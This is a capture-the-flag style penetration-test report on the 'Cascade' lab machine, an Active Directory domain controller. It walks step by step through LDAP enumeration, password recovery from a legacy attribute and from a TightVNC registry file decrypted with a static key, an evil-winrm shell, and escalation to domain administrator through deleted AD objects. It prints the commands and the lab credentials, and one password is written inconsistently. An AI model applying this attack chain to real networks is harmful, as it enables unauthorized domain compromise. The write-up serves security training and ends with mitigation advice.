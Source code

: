 # Table of Contents
**Executive Summary**
* Summary of results
**Attack Path**
* LDAP discovery and enumeration
* Authenticated SMB enumeration
*  Lateral movement to interactive shell
* Administrative Privilege Escalation
* Escalation to Domain Administrator
**Conclusion**
* Recommendation
* Risk Rating
**Appendix: Vulnerability Detail and Mitigation**
* Unauthenticated LDAP enumeration
* Password attributes field in LDAP
* User Access control
* Weak/Static Key Encryption
* Password Reuse

# Executive Summary
### Summary of results


# Attack Path
## LDAP discovery and enumeration
Scanned the IP with nmap and discovered 13 open TCP ports. The automated scripts revealed the hostname of cascade.local.

Time ran: Fri Oct 28 23:31:06 2022
```bash
nmap 10.10.10.182 -sC -sV
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-28 12:31:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```
With LDAP open on port 2368 we checked if we could query LDAP.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts

Domain DC=cascade,DC=local
```
Proceeded to enumerate LDAP and gather usernames.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon

cat ldap_anon | grep sAMAccountName | awk -F": " '{print $2}' > usernames.ldap
```

Usernames.ldap
```txt
s.smith
r.thompson
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
j.allen
i.croft
```

Checked for any passwords stored within ldap by looking for unique values.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
```

This revealed a cascadeLegacyPwd from r.thompson's user object
```base64
clk0bjVldmE=
```
Which when decoded is
```txt
rY4n53va
```

## Authenticated SMB enumeration
Listed all the files that r.thompson can view within smb
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```
This user can view a vnc install.reg file within another user's folder.

## Lateral movement to interactive shell
When viewing the file there is an encrypted password.
```bash
cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
Decrypting with the static key.
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```

Plain text password of sT333ve2
Logging in with evil-winrm provides an interactive shell.

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

## Administrative Privilege Escalation
We enumerated smb again with the new credentials and found a Audit$ drive, which has an executable. Reverse engineering the executable reveals the password `W3lc0meFr31nd` for the ArkSvc user which has administrator privileges.

## Escalation to Domain Administrator
The ArkSvc user is a member of the recycle bin group which can read files that have been deleted.

```powershell
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter
{ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```
There is a file that contains the password for tempadmin which is also the default admin password for the domain.
```
baCT3r1aN00dles
```

We then proceeded to login as the administrator account with winrm, which results in domain admin.

# Conclusion
## Recommendations
- Do not reuse passwords for admin accounts.
- Remove the cascadeLegacyPwd field from r.thompson and tempadmin from their AD objects
- Use a better vnc type as this one has a static password, so the encryption is useless.
- Do not have hard coded credentials for an encryption algorithm (Audit.exe)
- Why does s.smith need to be able to view the database?
- Have a stronger password policy and have rotations every 30 days.
- Disable winrm on all accounts that do not need it.

## Risk Rating
Overall there is a **high** risk identified from this report. There is a direct path for an external attacker to have full system compromise. There is very realistic that an malicious entity would be able to execute this attack through this attack chain. 